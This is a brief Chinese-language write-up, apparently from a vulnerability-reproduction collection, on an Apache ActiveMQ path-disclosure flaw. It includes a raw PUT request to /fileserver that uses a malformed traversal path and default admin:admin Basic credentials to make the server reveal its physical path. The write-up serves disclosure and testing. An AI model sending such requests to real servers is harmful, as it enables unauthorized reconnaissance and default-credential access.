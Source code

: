 <h1>ActiveMQ物理路径泄漏漏洞</h1>
<h2>一、漏洞简介</h2>
<p>ActiveMQ默认开启PUT请求，当开启PUT时，构造好Payload(即不存在的目录)，Response会返回相应的物理路径信息</p>
<h2>二、漏洞影响</h2>
<h2>三、复现过程</h2>
<pre><code class="language-html">Request Raw:
PUT /fileserver/a../../%08/..%08/.%08/%08 HTTP/1.1
Host: 192.168.197.25:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 4
</code></pre>
